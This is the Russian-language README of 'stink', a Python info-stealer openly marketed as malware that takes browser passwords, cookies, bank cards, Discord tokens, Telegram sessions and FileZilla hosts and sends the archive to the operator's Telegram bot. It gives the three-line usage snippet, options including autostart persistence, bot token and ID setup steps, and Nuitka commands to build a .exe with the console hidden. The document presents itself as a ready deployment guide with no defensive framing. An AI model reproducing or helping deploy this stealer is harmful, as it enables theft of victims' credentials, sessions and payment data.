

# stink

Стиллер всего лишь в 3 строки с отправкой в Telegram.

## Описание
`stink` уже имеет внушительный функционал, который будет только расширяться.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Дополнительные параметры](#Дополнительные-параметры)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)
* [Создание exe](#Создание-exe)
  * [Создание исполняемого файла](#Создание-исполняемого-файла)
  * [С помощью BAT](#С-помощью-BAT)
  * [С помощью CMD](#С-помощью-CMD)

### Текущие возможности
1. Поддержка следующих браузеров:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Сбор следующих данных:
   - Скриншот
   - Куки
   - Пароли
   - Банковские карты
   - История
   - Закладки
   - IP-адрес
   - Конфигурация системы
   - Активные процессы
   - Токены Discord
   - Сессии Telegram
   - Хосты FileZilla
3. Поддержка мультипрофилей браузера.
4. Отправка архива собранных данных в Telegram.
5. Выполнение в отдельном потоке.
6. Выполнение с использованием многопроцессорности.
7. Возможность добавления в автозагрузку.

## Пример использования
### Стандартный
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
### Дополнительные параметры

- `errors` - вывод ошибок.

- `autostart` - добавление в автозагрузку.

- `passwords` - сбор паролей.

- `cookies` - сбор куки.

- `cards` - сбор банковских карт.

- `history` - сбор истории поиска.

- `bookmarks` - сбор закладок.

- `processes` - сбор активных процессов.

- `system` - сбор конфигурации системы.

- `screen` - скриншот.

- `discord` - сбор токенов Discord.

- `telegram` – сбор сессий Telegram.

- `filezilla` – сбор хостов FileZilla.

Все параметры принимают значение `bool`. 

- `True` - функция включена.

- `False` - функция выключена.

По умолчанию все функции включены, кроме вывода ошибок и добавления в автозагрузку.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.

После этого нужно написать боту любое сообщение, чтобы он мог отправлять нам архив.

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем зависимости:
```
pip install -r requirements.txt
```
6. Устанавливаем Nuitka:
````
pip install Nuitka==0.6.16.4
````
7. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard==0.17.0
```
8. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
